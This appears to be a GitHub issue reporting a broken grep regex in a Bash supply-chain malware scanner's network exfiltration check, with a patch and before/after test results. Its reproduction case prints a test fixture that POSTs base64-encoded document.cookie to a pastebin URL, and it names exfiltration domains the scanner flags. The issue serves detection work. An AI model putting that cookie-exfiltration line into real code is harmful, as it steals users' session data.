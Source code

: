 # GitHub Issue #43 - CORRECTED VERSION

## 🐛 Bug: Network Exfiltration Domain Detection Fails

**Status**: 🔧 Fixed locally, awaiting merge

---

## Summary

The paranoid mode network exfiltration domain detection uses a broken regex pattern that **never matches** domain names in URLs. This causes the scanner to miss critical indicators like `pastebin.com` and other suspicious domains used for data exfiltration.

---

## Bug Details

**Affected Version**: All versions with paranoid mode  
**Component**: Network exfiltration detection in paranoid mode  
**Severity**: HIGH - Security detection bypass

### Location

**File**: `shai-hulud-detector.sh`  
**Function**: `check_network_exfiltration()`  
**Lines**: ~1119, ~1122, ~1127

### The Problem

```bash
# BROKEN (current):
if grep -q "https\?://[^[:space:]]*$domain\|[[:space:]]$domain[[:space:/]\"\']" "$file" 2>/dev/null; then
#          ^^^^^^^^^^^^^^^^^
#          This pattern NEVER matches!
```

**Why it fails**: The `[^[:space:]]` character class in this context doesn't work as intended with the `\?` escaped quantifier and domain variable interpolation.

### The Fix

```bash
# FIXED:
if grep -qE "https?://.*$domain" "$file" 2>/dev/null; then
#       ^^   ^^^^^^^^
#       Use -E for extended regex and simplified pattern
```

**Changes**:
1. Use `-E` flag for extended regex (no need to escape `?`)
2. Replace `[^[:space:]]*` with `.*` (simpler and works)
3. Remove unnecessary alternation patterns

---

## Reproduction

### Test Case

**File**: `test-cases/comprehensive-test/suspicious.js` (line 4)
```javascript
fetch("https://pastebin.com/steal", {
  method: "POST",
  body: btoa(document.cookie)
});
```

### Before Fix

```bash
$ ./shai-hulud-detector.sh --paranoid test-cases/comprehensive-test
# Output: DOES NOT detect pastebin.com
Medium Risk Issues: 5  # Missing network domain warning
```

### After Fix

```bash
$ ./shai-hulud-detector.sh --paranoid test-cases/comprehensive-test
# Output: DETECTS pastebin.com
⚠️  MEDIUM RISK (PARANOID): Network exfiltration patterns detected:
   - Warning: Suspicious domain found: pastebin.com at line 4
Medium Risk Issues: 6  # Includes network domain warning ✅
```

---

## Test Results

**Tested on**: Git Bash 2.x (Windows/MINGW64)

**Test cases with suspicious domains**: 4 out of 23 total

| Test Case | Before Fix | After Fix |
|-----------|------------|-----------|
| comprehensive-test | ❌ Missed pastebin.com | ✅ Detects pastebin.com |
| infected-project | ✅ Detects webhook.site | ✅ Still detects |
| mixed-project | ✅ Detects webhook.site | ✅ Still detects |
| network-exfiltration-project | ✅ Detects domains | ✅ Still detects |

**Summary**: 
- Before fix: 3/4 test cases showed network warnings (missed 1)
- After fix: 4/4 test cases show network warnings (all detected) ✅

---

## Impact

### Security Impact: HIGH

1. **Detection Bypass**: Domains like `pastebin.com`, `file.io` used for data exfiltration are not detected
2. **False Sense of Security**: Users believe their code is safe when it actually contains exfiltration patterns
3. **Partial Detection**: IPs and WebSockets are detected (different regex), but domains are missed

### What Still Works

The following network checks are **NOT affected** (use different patterns):
- ✅ Hardcoded IP addresses (`10.0.1.50`)
- ✅ WebSocket connections (`wss://evil.com`)
- ✅ Base64 encoding/decoding near network operations

---

## Suggested Fix (Patch)

```diff
--- a/shai-hulud-detector.sh
+++ b/shai-hulud-detector.sh
@@ -1116,7 +1116,7 @@ check_network_exfiltration() {
             if [[ "$file" != *"package-lock.json"* && "$file" != *"yarn.lock"* && "$file" != *"/vendor/"* && "$file" != *"/node_modules/"* ]]; then
                 for domain in "${suspicious_domains[@]}"; do
                     # Use word boundaries and URL patterns to avoid false positives like "timeZone" containing "t.me"
-                    if grep -q "https\?://[^[:space:]]*$domain\|[[:space:]]$domain[[:space:/]\"\']" "$file" 2>/dev/null; then
+                    if grep -qE "https?://.*$domain" "$file" 2>/dev/null; then
                         # Additional check - make sure it's not just a comment or documentation
                         local suspicious_usage
-                        suspicious_usage=$(grep "https\?://[^[:space:]]*$domain\|[[:space:]]$domain[[:space:/]\"\']" "$file" 2>/dev/null | grep -v "^[[:space:]]*#\|^[[:space:]]*//" 2>/dev/null | head -1 2>/dev/null) || true
+                        suspicious_usage=$(grep -E "https?://.*$domain" "$file" 2>/dev/null | grep -v "^[[:space:]]*#\|^[[:space:]]*//" 2>/dev/null | head -1 2>/dev/null) || true
                         if [[ -n "$suspicious_usage" ]]; then
                             # Get line number and context
                             local line_info
-                            line_info=$(grep -n "https\?://[^[:space:]]*$domain\|[[:space:]]$domain[[:space:/]\"\']" "$file" 2>/dev/null | grep -v "^[[:space:]]*#\|^[[:space:]]*//" 2>/dev/null | head -1 2>/dev/null) || true
+                            line_info=$(grep -nE "https?://.*$domain" "$file" 2>/dev/null | grep -v "^[[:space:]]*#\|^[[:space:]]*//" 2>/dev/null | head -1 2>/dev/null) || true
```

---

## How We Found This

This bug was discovered while implementing a Rust port of the scanner. The Rust version correctly detected all network domains, revealing that the Bash version was missing detections. Mathematical verification showed:

- **Bash (broken)**: Found 5 MEDIUM risk issues in comprehensive-test
- **Rust (correct)**: Found 7 MEDIUM risk issues in comprehensive-test
- **Difference**: 2 missing network domain warnings

Further investigation revealed the broken regex pattern.

---

## Related Issues

This is one of two regex bugs found in paranoid mode:
1. **This issue**: Network domain detection (lines ~1119-1127)
2. **Homoglyph detection**: AWK pre-filter blocks Unicode (line ~943) - Will report separately

---

## Verification

After applying the fix:

```bash
# Test the fix
./shai-hulud-detector.sh --paranoid test-cases/comprehensive-test 2>&1 | grep -A 3 "pastebin"
# Should output:
#   - Warning: Suspicious domain found: pastebin.com at line 4: fetch("https://pastebin.com/steal", {...
```

---

## Testing Note

This fix has been tested on Windows (Git Bash/MINGW64). Additional testing on Linux/macOS would be appreciated before merge to ensure cross-platform compatibility.

**Ready for review**: Fix resolves the reported issue. No breaking changes to existing functionality.
